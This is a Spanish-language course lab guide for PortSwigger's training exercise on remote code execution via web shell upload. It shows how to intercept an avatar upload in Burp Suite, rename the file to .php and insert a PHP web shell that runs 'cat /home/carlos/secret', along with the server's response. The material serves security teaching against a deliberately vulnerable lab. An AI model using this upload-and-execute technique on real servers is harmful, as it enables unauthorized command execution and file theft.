






# Laboratorio: Web shell

## Requisitos previos

- Máquina GNU/Linux: portátil, máquina virtual, o PC laboratorio (Entrar con credencial LDAP, solo usar usuario `lsi` si es necesario, mediante el comando `su - lsi`).
- Editor de código. En Visual Studio Code, pulsando ctrl+mayus+v renderiza este archivo de manera amigable (Sobre todo para imágenes).
- Repositorio GitHub de asignatura: puedes subir los programas desarrollados en el laboratorio.
- Burp suite, Firefox + FoxyProxy, cuenta personal en PortSwigger (Ver laboratorio `SQL injection`). 

## Remote code execution via web shell upload

El objetivo de este laboratorio es leer `/home/carlos/secret` en el servidor mediante la ejecución remota de código (RCE). Concretamente, ejecuta una shell mediante PHP.  

Activar Burp suite y extensión FoxyProxy en Firefox. Mediante Firefox, logearse en [PortSwigger](https://portswigger.net) e ir a laboratorio [File upload vulnerabilities; Remote code execution via web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload). Acceder al laboratorio:



Ir a `My account` y logearse con el usuario "wiener" y contraseña "peter":



Subir imagen `TEST.png`:





Abrir imagen en una pestaña nueva. Esto nos da la ruta completa de la imagen: `/files/avatars/TEST.png`. En Burp suite, abrir la petición `POST /my-account/avatar` y enviarla al Repeater:



Cambiar `TEST.png` a `TEST.php` e introducir la instrucción PHP que ejecutará el comando Shell:

```
Content-Disposition: form-data; name="avatar"; filename="TEST.php"
Content-Type: image/png

<?php system('cat /home/carlos/secret'); ?>
PNG
...  
```

Enviar la petición. Nos responde:

```
HTTP/2 200 OK
Date: Mon, 02 Nov 2026 16:40:36 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 129

The file avatars/TEST.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Volver al navegador, y volver a poner la URL de la imagen, pero con extensión `.php`: `/files/avatars/TEST.php`:



Al abrir el archivo lo ejecuta como si fuese PHP y lee el secreto. Copiar el secreto y meterlo en "Submit solution" de vuelta en el laboratorio. Debería contestar "Congratulations, you solved the lab!"

